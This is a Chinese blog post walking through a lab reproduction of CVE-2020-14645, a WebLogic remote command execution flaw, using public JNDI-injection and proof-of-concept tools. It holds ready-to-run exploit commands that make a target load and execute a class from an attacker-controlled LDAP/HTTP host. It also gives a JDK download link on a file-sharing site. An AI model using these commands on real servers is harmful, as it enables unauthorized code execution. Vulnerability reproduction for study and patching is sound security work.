








# (CVE-2020-14645)Weblogic 远程命令执行漏洞复现 - 追得上的梦想 - 博客园

> 原文：[`www.cnblogs.com/KHZ521/p/14053395.html`](https://www.cnblogs.com/KHZ521/p/14053395.html)

### 影响版本

```
Oracle WebLogic Server 10.3.6.0.0
Oracle WebLogic Server 12.1.3.0.0
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0 
```

### 漏洞复现工具

**JNDI-Injection-Exploit**

```
https://github.com/welk1n/JNDI-Injection-Exploit 
```

**CVE-2020-14645 漏洞测试工具**

```
https://github.com/DSO-Lab/defvul 
```

因为电脑上缺少 maven 的编译工具，所以我使用的是 IDEA 自带的 maven 工具

### 工具准备

1.JNDI-Injection-Exploit-master
使用 IDEA 打开项目

选择右侧的 maven 工具栏，按下图进行点击，将从 git 上下载的文件 java 源码使用 maven 编译为 jar 文件

编译成功，红色框为文件输出位置


2.CVE-2020-14645_Weblogic
使用 idea 打开项目，进行编译


### 实验环境

java jdk 1.8

```
https://mega.nz/file/1KIhjSCR#g0s5jekk3F9t55o3WXK_ahozuqn9_60eKSKt70we_uw 
```

WebLogic 12.2.1.4

```
https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html 
```

windows server 2012 （别人拷我的，链接就不放了）

### 实验环境搭建

1.Java jdk 安装
将下载好的文件拖到虚拟机中，双击运行安装即可

2.WebLogic 12.2.1.4 安装
使用 Java -jar 命令运行 jar 文件，如果提示不是有效的 jdk java 目录，就将 jar 文件放置在<JDK>\bin 目录下使用 java 运行（踩了个坑）

一直下一步，勾选自助启动配置向导选项

进入配置向导，创建新域并勾选全部模板



安装完成之后进入域的安装位置，运行 startWeblogic.cmd 文件

```
cd C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\
startWeblogic.cmd 
```


浏览器访问 http://localhost:7001/console/login/LoginForm.jsp

环境搭建成功！开始正式测试

### 漏洞复现

1.执行 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 文件，需要占用的 8180、1099、1389 端口（-A [address]ip 为 JNDI 服务所监听的地址（可以使用 0.0.0.0））
使用方式

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [address] 
```

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 192.168.233.135 
```


2.执行 CVE-2020-14645_Weblogic.jar 文件
使用方式 (LDAP_IP:LDAP_PORT/#Exploit 为本机 ip 监听的 1389 端口的地址)(第一个 ip 为本机 ip，第二 ip 为攻击 ip，本机 ip 后面的/#Exploit 路径为 JNDI-Injection-Exploit-1.0-SNAPSHOT-all 生成的路径 1389 对应的路径)

```
java -jar CVE-2020-14645.jar LDAP_IP:LDAP_PORT/#Exploit http://<targetIP>:7001 
```

```
java -jar CVE-2020-14645.jar 192.168.101.209:1389/jqcrvc http://192.168.233.135:7001 
```



提示 Send LDAP reference result for 1xnkli redirecting to [`192.168.233.135:8180/ExecTemplateJDK8.class`](http://192.168.233.135:8180/ExecTemplateJDK8.class) 调用成功


细心的小伙伴应该发现了，搭建环境使用的是 2008，主要是懒得重新搭建环境了，就从大佬文章中直接抄袭了，望海涵 参考连接 https://blog.csdn.net/suiyideali/article/details/109061125